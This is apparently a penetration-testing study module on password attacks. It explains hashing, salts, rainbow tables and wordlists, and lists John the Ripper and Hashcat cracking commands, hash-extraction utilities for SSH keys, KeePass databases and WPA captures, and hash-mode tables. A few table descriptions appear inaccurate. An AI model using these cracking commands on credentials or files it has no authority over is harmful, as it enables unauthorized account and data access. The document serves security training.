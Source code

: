 # 🔐 Password Attacks  
*Passwords remain the fragile seals guarding the gateways of corporate realms. When these wards are weak or neglected, the shadows may crack them open with ease. This module unveils the secrets of password storage, retrieval, and the arcane art of cracking or leveraging hashes—guiding the seeker through the labyrinth of authentication’s frailties.*

> *“Even the strongest lock may yield to the patient whisper of ancient incantations.”*

<details>
<summary><h1>Introduction</h1></summary>

Passwords are commonly hashed when stored, in order to provide some protection in the event they fall into the hands of an attacker.

Hash functions are cryptographically designed to be one-way operations, making it computationally infeasible to derive the original input from its hashed output. When malicious actors attempt to reverse this process, it constitutes password cracking. Common methodologies include:

1. Rainbow Table Attacks

    * Leveraging precomputed hash chains for rapid lookups

2. Dictionary Attacks

    * Testing known wordlists and common password variations

3. Brute-Force Attacks

    * Systematic trial of all possible character combinations (typically last-resort)


<details>
<summary><h2>Generate a hash</h2></summary>

**MD5**

```bash
echo -n password123! | md5sum

# b7e283a09511d95d6eac86e39e7942c0
```

**SHA1**

```bash
echo -n "password123!" | sha1sum

# addbd3aa5619f2932733104eb8ceef08f6fd2693
```

**SHA256**

```bash
echo -n password123! | sha256sum

# 5751a44782594819e4cb8aa27c2c9d87a420af82bc6a5a05bc7f19c3bb00452b
```

**SHA512**

```bash
echo -n "password123!" | sha512sum

# 7d66f28d648ca474e357d78e9fbdeb9bbdb46e1603d4ec63f7affe217e6400f3f3211e6e4e1b29dc10617417e502b19c813ced4cec07360e7e3151c290388176
```

**CRC32**
```bash
echo -n "password123!" | gzip -1 | tail -c 8 | hexdump -n4 -e '"%08x\n"'

# 3cdccd7e
```

</details>

<details>
<summary><h2>Rainbow Tables</h2></summary>

Rainbow tables represent extensive pre-generated databases that map plaintext inputs to their corresponding hash outputs for specific cryptographic algorithms. These tables enable rapid password recovery through direct hash lookup.

| Password    | MD5 Hash                           |
|-------------|------------------------------------|
| 123456      | e10adc3949ba59abbe56e057f20f883e |
| 12345       | 827ccb0eea8a706c4c34a16891f84e7b |
| 123456789   | 25f9e794323b453885f5181f1b624d0b |
| password    | 5f4dcc3b5aa765d61d8327deb882cf99 |
| iloveyou    | f25a2fc72690b780b2a14e140ef6a9e0 |
| princess    | 8afa847f50a716e64932d995c8e7435a |
| 1234567     | fcea920f7412b5da7be0cf42b8c93759 |
| rockyou     | f806fc5a2a0d5ba2471600758452799c |
| 12345678    | 25d55ad283aa400af464c76d713c07ad |
| abc123      | e99a18c428cb38d5f260853678922e03 |
| ...  | ...                        |

> Because rainbow tables are such a powerful attack, salting is used.

</details>

<details>
<summary><h2>Salt</h2></summary>

A salt, in cryptographic terms, is a random sequence of bytes added to a password before it is hashed.

For example, if the salt *PWN0M1C0N_* is prepended to the same password, the MD5 hash would now be as follows:

```bash
echo -n PWN0M1C0N_password123! | md5sum

# ded0e91215d34046aca709995c794045
```

**Why use a Salt?**

* Prevents Identical Hashes: Without a salt, the same password always produces the same hash. Salts ensure uniqueness, even if two users have the same password.

* Defeats Rainbow Tables: Precomputed hash tables (rainbow tables) become useless because each salt requires a separate lookup table.

**How Salts Break Rainbow Tables**

A 1-byte salt (256 possible values) forces attackers to generate 256 versions of every precomputed hash. A rainbow table with 15 billion entries would need 3.84 trillion entries (15B × 256) to cover all salt combinations.
Modern Systems use larger salts (e.g., 16+ bytes), making rainbow tables computationally infeasible.

</details>

<details>
<summary><h2>Dictionary attack</h2></summary>

Dictionary attacks (or wordlist attacks) represent one of the most effective password cracking methods, particularly valuable for time-constrained engagements like penetration testing.

**Key Characteristics**

* **High Efficiency:** Targets common passwords first, maximizing success rate per attempt

* **Time Optimization:** Critical for engagements with limited testing windows

* **Customization:** Wordlists can be tailored to specific industries, regions, or targets

**Common Wordlist Resources**

* [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt): Contains millions of real passwords from historical breaches

* [SecLists](https://github.com/danielmiessler/SecLists): Comprehensive security testing collection including:

    * Common credentials

    * Default passwords

    * Pattern-based variations

</details>

</details>

---

<details>
<summary><h1>Password Cracking Techniques</h1></summary>

<details>
<summary><h2>John The Ripper</h2></summary>

Tool used for cracking passwords through various attacks including brute-force and dictionary.

[Here](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats) is a very useful cheat-sheet by PentestMonkey.

<details>
<summary><h3>JtR FOrmats</h3></summary>

| Hash Format           | Example Command                          | Description |
|-----------------------|-----------------------------------------|-------------|
| afs                   | `john --format=afs [...] <HASH_FILE>`    | AFS (Andrew File System) password hashes |
| bfegg                 | `john --format=bfegg [...] <HASH_FILE>`  | bfegg hashes used in Eggdrop IRC bots |
| bf                    | `john --format=bf [...] <HASH_FILE>`     | Blowfish-based crypt(3) hashes |
| bsdi                  | `john --format=bsdi [...] <HASH_FILE>`   | BSDi crypt(3) hashes |
| crypt(3)              | `john --format=crypt [...] <HASH_FILE>`  | Traditional Unix crypt(3) hashes |
| des                   | `john --format=des [...] <HASH_FILE>`    | Traditional DES-based crypt(3) hashes |
| dmd5                  | `john --format=dmd5 [...] <HASH_FILE>`   | DMD5 (Dragonfly BSD MD5) password hashes |
| dominosec             | `john --format=dominosec [...] <HASH_FILE>` | IBM Lotus Domino 6/7 password hashes |
| EPiServer SID hashes  | `john --format=episerver [...] <HASH_FILE>` | EPiServer SID (Security Identifier) password hashes |
| hdaa                  | `john --format=hdaa [...] <HASH_FILE>`   | hdaa password hashes used in Openwall GNU/Linux |
| hmac-md5              | `john --format=hmac-md5 [...] <HASH_FILE>` | hmac-md5 password hashes |
| hmailserver           | `john --format=hmailserver [...] <HASH_FILE>` | hmailserver password hashes |
| ipb2                  | `john --format=ipb2 [...] <HASH_FILE>`   | Invision Power Board 2 password hashes |
| krb4                  | `john --format=krb4 [...] <HASH_FILE>`   | Kerberos 4 password hashes |
| krb5                  | `john --format=krb5 [...] <HASH_FILE>`   | Kerberos 5 password hashes |
| LM                    | `john --format=LM [...] <HASH_FILE>`     | LM (Lan Manager) password hashes |
| lotus5                | `john --format=lotus5 [...] <HASH_FILE>` | Lotus Notes/Domino 5 password hashes |
| mscash                | `john --format=mscash [...] <HASH_FILE>` | MS Cache password hashes |
| mscash2               | `john --format=mscash2 [...] <HASH_FILE>` | MS Cache v2 password hashes |
| mschapv2              | `john --format=mschapv2 [...] <HASH_FILE>` | MS CHAP v2 password hashes |
| mskrb5                | `john --format=mskrb5 [...] <HASH_FILE>` | MS Kerberos 5 password hashes |
| mssql05               | `john --format=mssql05 [...] <HASH_FILE>` | MS SQL 2005 password hashes |
| mssql                 | `john --format=mssql [...] <HASH_FILE>`  | MS SQL password hashes |
| mysql-fast            | `john --format=mysql-fast [...] <HASH_FILE>` | MySQL fast password hashes |
| mysql                 | `john --format=mysql [...] <HASH_FILE>`  | MySQL password hashes |
| mysql-sha1            | `john --format=mysql-sha1 [...] <HASH_FILE>` | MySQL SHA1 password hashes |
| NETLM                 | `john --format=netlm [...] <HASH_FILE>`  | NETLM (NT LAN Manager) password hashes |
| NETLMv2               | `john --format=netlmv2 [...] <HASH_FILE>` | NETLMv2 (NT LAN Manager version 2) password hashes |
| NETNTLM               | `john --format=netntlm [...] <HASH_FILE>` | NETNTLM (NT LAN Manager) password hashes |
| NETNTLMv2             | `john --format=netntlmv2 [...] <HASH_FILE>` | NETNTLMv2 (NT LAN Manager version 2) password hashes |
| NEThalfLM             | `john --format=nethalflm [...] <HASH_FILE>` | NEThalfLM (NT LAN Manager) password hashes |
| md5ns                 | `john --format=md5ns [...] <HASH_FILE>`  | md5ns (MD5 namespace) password hashes |
| nsldap                | `john --format=nsldap [...] <HASH_FILE>` | nsldap (OpenLDAP SHA) password hashes |
| ssha                  | `john --format=ssha [...] <HASH_FILE>`   | ssha (Salted SHA) password hashes |
| NT                    | `john --format=nt [...] <HASH_FILE>`     | NT (Windows NT) password hashes |
| openssha              | `john --format=openssha [...] <HASH_FILE>` | OPENSSH private key password hashes |
| oracle11              | `john --format=oracle11 [...] <HASH_FILE>` | Oracle 11 password hashes |
| oracle                | `john --format=oracle [...] <HASH_FILE>` | Oracle password hashes |
| pdf                   | `john --format=pdf [...] <HASH_FILE>`    | PDF (Portable Document Format) password hashes |
| phpass-md5            | `john --format=phpass-md5 [...] <HASH_FILE>` | PHPass-MD5 (Portable PHP password hashing framework) password hashes |
| phps                  | `john --format=phps [...] <HASH_FILE>`   | PHPS password hashes |
| pix-md5               | `john --format=pix-md5 [...] <HASH_FILE>` | Cisco PIX MD5 password hashes |
| po                    | `john --format=po [...] <HASH_FILE>`     | Po (Sybase SQL Anywhere) password hashes |
| rar                   | `john --format=rar [...] <HASH_FILE>`    | RAR (WinRAR) password hashes |
| raw-md4               | `john --format=raw-md4 [...] <HASH_FILE>` | Raw MD4 password hashes |
| raw-md5               | `john --format=raw-md5 [...] <HASH_FILE>` | Raw MD5 password hashes |
| raw-md5-unicode       | `john --format=raw-md5-unicode [...] <HASH_FILE>` | Raw MD5 Unicode password hashes |
| raw-sha1              | `john --format=raw-sha1 [...] <HASH_FILE>` | Raw SHA1 password hashes |
| raw-sha224            | `john --format=raw-sha224 [...] <HASH_FILE>` | Raw SHA224 password hashes |
| raw-sha256            | `john --format=raw-sha256 [...] <HASH_FILE>` | Raw SHA256 password hashes |
| raw-sha384            | `john --format=raw-sha384 [...] <HASH_FILE>` | Raw SHA384 password hashes |
| raw-sha512            | `john --format=raw-sha512 [...] <HASH_FILE>` | Raw SHA512 password hashes |
| salted-sha            | `john --format=salted-sha [...] <HASH_FILE>` | Salted SHA password hashes |
| sapb                  | `john --format=sapb [...] <HASH_FILE>`   | SAP CODVN B (BCODE) password hashes |
| sapg                  | `john --format=sapg [...] <HASH_FILE>`   | SAP CODVN G (PASSCODE) password hashes |
| sha1-gen              | `john --format=sha1-gen [...] <HASH_FILE>` | Generic SHA1 password hashes |
| skey                  | `john --format=skey [...] <HASH_FILE>`   | S/Key (One-time password) hashes |
| ssh                   | `john --format=ssh [...] <HASH_FILE>`    | SSH (Secure Shell) password hashes |
| sybasease             | `john --format=sybasease [...] <HASH_FILE>` | Sybase ASE password hashes |
| xsha                  | `john --format=xsha [...] <HASH_FILE>`   | xsha (Extended SHA) password hashes |
| zip                   | `john --format=zip [...] <HASH_FILE>`    | ZIP (WinZip) password hashes |

</details>

<details>
<summary><h3>Cracking passwords</h3></summary>

<details>
<summary><h4>Wordlists</h4></summary>

Verify the hash type

```bash
hashid -j "<HASH_STRING>"
```

> By adding the -j flag, hashID will, in addition to the hash format, list the corresponding JtR format

Create the hash file

```bash
echo "<HASH_STRING>" > hash.txt
```

> To process multiple hashes in a single operation, place each hash on a separate line and ensure no empty lines or extraneous characters.

Example valid format

```bash
d1c5c8f3b5f1e0a7a6b8d9c2e4f6a3b1d0e7f8c9  
5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8  
7c4a8d09ca3762af61e59520943dc26494f8941b
```

Run john

```bash
john --format=<HASH_FORMAT> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt > cracked_hash.txt
```

Verify the results

```bash
john --show --format=raw-md5 hash.txt
```

</details>

<details>
<summary><h4>Single</h4></summary>

Verify the hash type

```bash
hashid -j "<HASH_STRING>"
```

Create the hash file

```bash
echo "<HASH_STRING>" > hash.txt
```

Example valid format

```bash
r0lf:\$6\$ues25dIanlctrWxg\$nZHVz2z4kCy1760Ee28M1xtHdGoy0C2cYzZ8l2sVa1kIa8K9gAcdBP.GI6ng/qA4oaMrgElZ1Cb9OeXO4Fvy3/:0:0:Rolf Sebastian:/home/r0lf:/bin/bash
```

Run john

```bash
john --single --format=<HASH_FORMAT> hash.txt
```

Verify the results

```bash
john --show --format=<HASH_FORMAT> hash.txt
```

</details>

</details>

<details>
<summary><h3>Cracking files</h3></summary>

John the Ripper includes specialized utilities for extracting hashes from encrypted/password-protected files. These companion tools follow a consistent syntax pattern:

```bash
<TOOL> <FILE_TO_CRACK> > file.hash
```

Some of the tools included with JtR are:

| Tool                     | Example Usage                     | Description |
|--------------------------|-----------------------------------|-------------|
| `pdf2john`               | `pdf2john file.pdf > hash.txt`    | Extracts password hashes from PDF files for John |
| `ssh2john`               | `ssh2john id_rsa > hash.txt`      | Converts SSH private keys to John format |
| `mscash2john`            | `mscash2john cache.dat > hash.txt`| Extracts MS Cash password hashes |
| `keychain2john`          | `keychain2john login.keychain > hash.txt` | Processes macOS keychain files |
| `rar2john`               | `rar2john archive.rar > hash.txt` | Extracts RAR archive passwords |
| `pfx2john`               | `pfx2john cert.pfx > hash.txt`    | Converts PKCS#12 files for cracking |
| `truecrypt_volume2john`  | `truecrypt_volume2john volume.tc > hash.txt` | Extracts TrueCrypt volume passwords |
| `keepass2john`           | `keepass2john database.kdbx > hash.txt` | Extracts KeePass database credentials |
| `vncpcap2john`           | `vncpcap2john capture.pcap > hash.txt` | Extracts VNC passwords from PCAP files |
| `putty2john`             | `putty2john putty_key.ppk > hash.txt` | Converts PuTTY private keys |
| `zip2john`               | `zip2john archive.zip > hash.txt` | Extracts ZIP archive passwords |
| `hccap2john`             | `hccap2john capture.cap > hash.txt` | Converts WPA handshakes for cracking |
| `office2john`            | `office2john document.docx > hash.txt` | Extracts MS Office document passwords |
| `wpa2john`               | `wpa2john capture.pcap > hash.txt` | Alternative WPA handshake converter |

An even larger collection can be found:

```bash
locate *2john*
```

</details>

</details>

<details>
<summary><h2>Hashcat</h2></summary>

Hashcat is a well-known password cracking tool for Linux, Windows, and macOS.

```bash
hashcat --attack-mode 0 --hash-type <HASHCAT_HASH_TYPE> <HASH_FILE> <WORDLIST>
```

To find more information about Hashcat, use:

```bash
hashcat --help
```

Hashid can be used to identify the hashcat has type

```bash
hashid -m '$1$FNr44XZC$wQxY6HHLrgrGX0e1195k.1'
```

Expected output

```bash
# Analyzing '$1$FNr44XZC$wQxY6HHLrgrGX0e1195k.1'

# [+] MD5 Crypt [Hashcat Mode: 500]
# [+] Cisco-IOS(MD5) [Hashcat Mode: 500]
# [+] FreeBSD MD5 [Hashcat Mode: 500]
```

<details>
<summary><h3>Attack modes</h3></summary>

<details>
<summary><h4>Dictionary Attack</h4></summary>

```bash
hashcat --attack-mode <ATTACK_MODE> --hash-type <HASH_TYPE> <HASH> <WORDLIST>
```

Example

```bash
hashcat --attack-mode 0 --hash-type 0 e3e3ec5831ad5e7288241960e5d4fdb8 /usr/share/wordlists/rockyou.txt
```

</details>

<details>
<summary><h4>Dictionary Attack + Rules</h4></summary>

```bash
hashcat --attack-mode <ATTACK_MODE> --hash-type <HASH_TYPE> <HASH> <WORDLIST> --rules-file <RULE_FILE>
```

Example

```bash
hashcat --attack-mode 0 --hash-type 0 1b0556a75770563578569ae21392630c /usr/share/wordlists/rockyou.txt --rules-file /usr/share/hashcat/rules/best64.rule
```

</details>

<details>
<summary><h4>Mask attack</h4></summary>

If we know that a password is eight characters long, rather than attempting every possible combination, we might define a mask that tests combinations of six letters followed by two numbers.

```bash
hashcat --attack-mode <ATTACK_MODE> --hash-type <HASH_TYPE> <HASH> '<MASK>'
```

Example

```bash
hashcat --attack-mode 3 --hash-type 0 1e293d6912d074c0fd15844d803400dd '?u?l?l?l?l?d?s'
```

</details>

</details>

<details>
<summary><h3>Hashcat types</h3></summary>

|   # | Name                                                                 | Category                              |
|-----:|----------------------------------------------------------------------|---------------------------------------|
|  900 | MD4                                                                  | Raw Hash                              |
|    0 | MD5                                                                  | Raw Hash                              |
|  100 | SHA1                                                                 | Raw Hash                              |
| 1300 | SHA2-224                                                             | Raw Hash                              |
| 1400 | SHA2-256                                                             | Raw Hash                              |
| 10800 | SHA2-384                                                             | Raw Hash                              |
| 1700 | SHA2-512                                                             | Raw Hash                              |
| 17300 | SHA3-224                                                             | Raw Hash                              |
| 17400 | SHA3-256                                                             | Raw Hash                              |
| 17500 | SHA3-384                                                             | Raw Hash                              |
| 17600 | SHA3-512                                                             | Raw Hash                              |
| 6000 | RIPEMD-160                                                           | Raw Hash                              |
|  600 | BLAKE2b-512                                                          | Raw Hash                              |
| 11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian                     | Raw Hash                              |
| 11800 | GOST R 34.11-2012 (Streebog) 512-bit, big-endian                     | Raw Hash                              |
| 6900 | GOST R 34.11-94                                                      | Raw Hash                              |
| 17010 | GPG (AES-128/AES-256 (SHA-1($pass)))                                 | Raw Hash                              |
| 5100 | Half MD5                                                             | Raw Hash                              |
| 17700 | Keccak-224                                                           | Raw Hash                              |
| 17800 | Keccak-256                                                           | Raw Hash                              |
| 17900 | Keccak-384                                                           | Raw Hash                              |
| 18000 | Keccak-512                                                           | Raw Hash                              |
| 6100 | Whirlpool                                                            | Raw Hash                              |
| 10100 | SipHash                                                              | Raw Hash                              |
|   70 | md5(utf16le($pass))                                                  | Raw Hash                              |
|  170 | sha1(utf16le($pass))                                                 | Raw Hash                              |
| 1470 | sha256(utf16le($pass))                                               | Raw Hash                              |
| 10870 | sha384(utf16le($pass))                                               | Raw Hash                              |
| 1770 | sha512(utf16le($pass))                                               | Raw Hash                              |
|  610 | BLAKE2b-512($pass.$salt)                                             | Raw Hash salted and/or iterated       |
|  620 | BLAKE2b-512($salt.$pass)                                             | Raw Hash salted and/or iterated       |
|   10 | md5($pass.$salt)                                                     | Raw Hash salted and/or iterated       |
|   20 | md5($salt.$pass)                                                     | Raw Hash salted and/or iterated       |
| 3800 | md5($salt.$pass.$salt)                                               | Raw Hash salted and/or iterated       |
| 3710 | md5($salt.md5($pass))                                                | Raw Hash salted and/or iterated       |
| 4110 | md5($salt.md5($pass.$salt))                                          | Raw Hash salted and/or iterated       |
| 4010 | md5($salt.md5($salt.$pass))                                          | Raw Hash salted and/or iterated       |
| 21300 | md5($salt.sha1($salt.$pass))                                         | Raw Hash salted and/or iterated       |
|   40 | md5($salt.utf16le($pass))                                            | Raw Hash salted and/or iterated       |
| 2600 | md5(md5($pass))                                                      | Raw Hash salted and/or iterated       |
| 3910 | md5(md5($pass).md5($salt))                                           | Raw Hash salted and/or iterated       |
| 3500 | md5(md5(md5($pass)))                                                 | Raw Hash salted and/or iterated       |
| 4400 | md5(sha1($pass))                                                     | Raw Hash salted and/or iterated       |
| 4410 | md5(sha1($pass).$salt)                                               | Raw Hash salted and/or iterated       |
| 20900 | md5(sha1($pass).md5($pass).sha1($pass))                              | Raw Hash salted and/or iterated       |
| 21200 | md5(sha1($salt).md5($pass))                                          | Raw Hash salted and/or iterated       |
| 4300 | md5(strtoupper(md5($pass)))                                          | Raw Hash salted and/or iterated       |
|   30 | md5(utf16le($pass).$salt)                                            | Raw Hash salted and/or iterated       |
|  110 | sha1($pass.$salt)                                                    | Raw Hash salted and/or iterated       |
|  120 | sha1($salt.$pass)                                                    | Raw Hash salted and/or iterated       |
| 4900 | sha1($salt.$pass.$salt)                                              | Raw Hash salted and/or iterated       |
| 4520 | sha1($salt.sha1($pass))                                              | Raw Hash salted and/or iterated       |
| 24300 | sha1($salt.sha1($pass.$salt))                                        | Raw Hash salted and/or iterated       |
|  140 | sha1($salt.utf16le($pass))                                           | Raw Hash salted and/or iterated       |
| 19300 | sha1($salt1.$pass.$salt2)                                            | Raw Hash salted and/or iterated       |
| 14400 | sha1(CX)                                                             | Raw Hash salted and/or iterated       |
| 4700 | sha1(md5($pass))                                                     | Raw Hash salted and/or iterated       |
| 4710 | sha1(md5($pass).$salt)                                               | Raw Hash salted and/or iterated       |
| 21100 | sha1(md5($pass.$salt))                                               | Raw Hash salted and/or iterated       |
| 18500 | sha1(md5(md5($pass)))                                                | Raw Hash salted and/or iterated       |
| 4500 | sha1(sha1($pass))                                                    | Raw Hash salted and/or iterated       |
| 4510 | sha1(sha1($pass).$salt)                                              | Raw Hash salted and/or iterated       |
| 5000 | sha1(sha1($salt.$pass.$salt))                                        | Raw Hash salted and/or iterated       |
|  130 | sha1(utf16le($pass).$salt)                                           | Raw Hash salted and/or iterated       |
| 1410 | sha256($pass.$salt)                                                  | Raw Hash salted and/or iterated       |
| 1420 | sha256($salt.$pass)                                                  | Raw Hash salted and/or iterated       |
| 22300 | sha256($salt.$pass.$salt)                                            | Raw Hash salted and/or iterated       |
| 20720 | sha256($salt.sha256($pass))                                          | Raw Hash salted and/or iterated       |
| 21420 | sha256($salt.sha256_bin($pass))                                      | Raw Hash salted and/or iterated       |
| 1440 | sha256($salt.utf16le($pass))                                         | Raw Hash salted and/or iterated       |
| 20800 | sha256(md5($pass))                                                   | Raw Hash salted and/or iterated       |
| 20710 | sha256(sha256($pass).$salt)                                          | Raw Hash salted and/or iterated       |
| 21400 | sha256(sha256_bin($pass))                                            | Raw Hash salted and/or iterated       |
| 1430 | sha256(utf16le($pass).$salt)                                         | Raw Hash salted and/or iterated       |
| 10810 | sha384($pass.$salt)                                                  | Raw Hash salted and/or iterated       |
| 10820 | sha384($salt.$pass)                                                  | Raw Hash salted and/or iterated       |
| 10840 | sha384($salt.utf16le($pass))                                         | Raw Hash salted and/or iterated       |
| 10830 | sha384(utf16le($pass).$salt)                                         | Raw Hash salted and/or iterated       |
| 1710 | sha512($pass.$salt)                                                  | Raw Hash salted and/or iterated       |
| 1720 | sha512($salt.$pass)                                                  | Raw Hash salted and/or iterated       |
| 1740 | sha512($salt.utf16le($pass))                                         | Raw Hash salted and/or iterated       |
| 1730 | sha512(utf16le($pass).$salt)                                         | Raw Hash salted and/or iterated       |
|   50 | HMAC-MD5 (key = $pass)                                              | Raw Hash authenticated                |
|   60 | HMAC-MD5 (key = $salt)                                              | Raw Hash authenticated                |
|  150 | HMAC-SHA1 (key = $pass)                                             | Raw Hash authenticated                |
|  160 | HMAC-SHA1 (key = $salt)                                             | Raw Hash authenticated                |
| 1450 | HMAC-SHA256 (key = $pass)                                           | Raw Hash authenticated                |
| 1460 | HMAC-SHA256 (key = $salt)                                           | Raw Hash authenticated                |
| 1750 | HMAC-SHA512 (key = $pass)                                           | Raw Hash authenticated                |
| 1760 | HMAC-SHA512 (key = $salt)                                           | Raw Hash authenticated                |
| 11750 | HMAC-Streebog-256 (key = $pass), big-endian                          | Raw Hash authenticated                |
| 11760 | HMAC-Streebog-256 (key = $salt), big-endian                          | Raw Hash authenticated                |
| 11850 | HMAC-Streebog-512 (key = $pass), big-endian                          | Raw Hash authenticated                |
| 11860 | HMAC-Streebog-512 (key = $salt), big-endian                          | Raw Hash authenticated                |
| 28700 | Amazon AWS4-HMAC-SHA256                                              | Raw Hash authenticated                |
| 11500 | CRC32                                                                | Raw Checksum                          |
| 27900 | CRC32C                                                               | Raw Checksum                          |
| 28000 | CRC64Jones                                                           | Raw Checksum                          |
| 18700 | Java Object hashCode()                                               | Raw Checksum                          |
| 25700 | MurmurHash                                                           | Raw Checksum                          |
| 27800 | MurmurHash3                                                          | Raw Checksum                          |
| 14100 | 3DES (PT = $salt, key = $pass)                                      | Raw Cipher, Known-plaintext attack    |
| 14000 | DES (PT = $salt, key = $pass)                                       | Raw Cipher, Known-plaintext attack    |
| 26401 | AES-128-ECB NOKDF (PT = $salt, key = $pass)                         | Raw Cipher, Known-plaintext attack    |
| 26402 | AES-192-ECB NOKDF (PT = $salt, key = $pass)                         | Raw Cipher, Known-plaintext attack    |
| 26403 | AES-256-ECB NOKDF (PT = $salt, key = $pass)                         | Raw Cipher, Known-plaintext attack    |
| 15400 | ChaCha20                                                             | Raw Cipher, Known-plaintext attack    |
| 14500 | Linux Kernel Crypto API (2.4)                                        | Raw Cipher, Known-plaintext attack    |
| 14900 | Skip32 (PT = $salt, key = $pass)                                    | Raw Cipher, Known-plaintext attack    |
| 11900 | PBKDF2-HMAC-MD5                                                      | Generic KDF                           |
| 12000 | PBKDF2-HMAC-SHA1                                                     | Generic KDF                           |
| 10900 | PBKDF2-HMAC-SHA256                                                   | Generic KDF                           |
| 12100 | PBKDF2-HMAC-SHA512                                                   | Generic KDF                           |
| 8900 | scrypt                                                               | Generic KDF                           |
|  400 | phpass                                                               | Generic KDF                           |
| 16100 | TACACS+                                                              | Network Protocol                      |
| 11400 | SIP digest authentication (MD5)                                      | Network Protocol                      |
| 5300 | IKE-PSK MD5                                                          | Network Protocol                      |
| 5400 | IKE-PSK SHA1                                                         | Network Protocol                      |
| 25100 | SNMPv3 HMAC-MD5-96                                                   | Network Protocol                      |
| 25000 | SNMPv3 HMAC-MD5-96/HMAC-SHA1-96                                      | Network Protocol                      |
| 25200 | SNMPv3 HMAC-SHA1-96                                                  | Network Protocol                      |
| 26700 | SNMPv3 HMAC-SHA224-128                                               | Network Protocol                      |
| 26800 | SNMPv3 HMAC-SHA256-192                                               | Network Protocol                      |
| 26900 | SNMPv3 HMAC-SHA384-256                                               | Network Protocol                      |
| 27300 | SNMPv3 HMAC-SHA512-384                                               | Network Protocol                      |
| 2500 | WPA-EAPOL-PBKDF2                                                     | Network Protocol                      |
| 2501 | WPA-EAPOL-PMK                                                        | Network Protocol                      |
| 22000 | WPA-PBKDF2-PMKID+EAPOL                                               | Network Protocol                      |
| 22001 | WPA-PMK-PMKID+EAPOL                                                  | Network Protocol                      |
| 16800 | WPA-PMKID-PBKDF2                                                     | Network Protocol                      |
| 16801 | WPA-PMKID-PMK                                                        | Network Protocol                      |
| 7300 | IPMI2 RAKP HMAC-SHA1                                                 | Network Protocol                      |
| 10200 | CRAM-MD5                                                             | Network Protocol                      |
| 16500 | JWT (JSON Web Token)                                                 | Network Protocol                      |
| 29200 | Radmin3                                                              | Network Protocol                      |
| 19600 | Kerberos 5, etype 17, TGS-REP                                        | Network Protocol                      |
| 19800 | Kerberos 5, etype 17, Pre-Auth                                       | Network Protocol                      |
| 28800 | Kerberos 5, etype 17, DB                                             | Network Protocol                      |
| 19700 | Kerberos 5, etype 18, TGS-REP                                        | Network Protocol                      |
| 19900 | Kerberos 5, etype 18, Pre-Auth                                       | Network Protocol                      |
| 28900 | Kerberos 5, etype 18, DB                                             | Network Protocol                      |
| 7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                                | Network Protocol                      |
| 13100 | Kerberos 5, etype 23, TGS-REP                                        | Network Protocol                      |
| 18200 | Kerberos 5, etype 23, AS-REP                                         | Network Protocol                      |
| 5500 | NetNTLMv1 / NetNTLMv1+ESS                                            | Network Protocol                      |
| 27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                                       | Network Protocol                      |
| 5600 | NetNTLMv2                                                            | Network Protocol                      |
| 27100 | NetNTLMv2 (NT)                                                       | Network Protocol                      |
| 29100 | Flask Session Cookie ($salt.$salt.$pass)                             | Network Protocol                      |
| 4800 | iSCSI CHAP authentication, MD5(CHAP)                                 | Network Protocol                      |
| 8500 | RACF                                                                 | Operating System                      |
| 6300 | AIX {smd5}                                                           | Operating System                      |
| 6700 | AIX {ssha1}                                                          | Operating System                      |
| 6400 | AIX {ssha256}                                                        | Operating System                      |
| 6500 | AIX {ssha512}                                                        | Operating System                      |
| 3000 | LM                                                                   | Operating System                      |
| 19000 | QNX /etc/shadow (MD5)                                                | Operating System                      |
| 19100 | QNX /etc/shadow (SHA256)                                             | Operating System                      |
| 19200 | QNX /etc/shadow (SHA512)                                             | Operating System                      |
| 15300 | DPAPI masterkey file v1 (context 1 and 2)                            | Operating System                      |
| 15310 | DPAPI masterkey file v1 (context 3)                                  | Operating System                      |
| 15900 | DPAPI masterkey file v2 (context 1 and 2)                            | Operating System                      |
| 15910 | DPAPI masterkey file v2 (context 3)                                  | Operating System                      |
| 7200 | GRUB 2                                                               | Operating System                      |
| 12800 | MS-AzureSync PBKDF2-HMAC-SHA256                                      | Operating System                      |
| 12400 | BSDi Crypt, Extended DES                                             | Operating System                      |
| 1000 | NTLM                                                                 | Operating System                      |
| 9900 | Radmin2                                                              | Operating System                      |
| 5800 | Samsung Android Password/PIN                                         | Operating System                      |
| 28100 | Windows Hello PIN/Password                                           | Operating System                      |
| 13800 | Windows Phone 8+ PIN/password                                        | Operating System                      |
| 2410 | Cisco-ASA MD5                                                        | Operating System                      |
| 9200 | Cisco-IOS $8$ (PBKDF2-SHA256)                                        | Operating System                      |
| 9300 | Cisco-IOS $9$ (scrypt)                                               | Operating System                      |
| 5700 | Cisco-IOS type 4 (SHA256)                                            | Operating System                      |
| 2400 | Cisco-PIX MD5                                                        | Operating System                      |
| 8100 | Citrix NetScaler (SHA1)                                              | Operating System                      |
| 22200 | Citrix NetScaler (SHA512)                                            | Operating System                      |
| 1100 | Domain Cached Credentials (DCC), MS Cache                            | Operating System                      |
| 2100 | Domain Cached Credentials 2 (DCC2), MS Cache 2                       | Operating System                      |
| 7000 | FortiGate (FortiOS)                                                  | Operating System                      |
| 26300 | FortiGate256 (FortiOS256)                                            | Operating System                      |
|  125 | ArubaOS                                                              | Operating System                      |
|  501 | Juniper IVE                                                          | Operating System                      |
|   22 | Juniper NetScreen/SSG (ScreenOS)                                     | Operating System                      |
| 15100 | Juniper/NetBSD sha1crypt                                             | Operating System                      |
| 26500 | iPhone passcode (UID key + System Keybag)                            | Operating System                      |
|  122 | macOS v10.4, macOS v10.5, macOS v10.6                                | Operating System                      |
| 1722 | macOS v10.7                                                          | Operating System                      |
| 7100 | macOS v10.8+ (PBKDF2-SHA512)                                         | Operating System                      |
| 3200 | bcrypt $2*$, Blowfish (Unix)                                         | Operating System                      |
|  500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)                            | Operating System                      |
| 1500 | descrypt, DES (Unix), Traditional DES                                | Operating System                      |
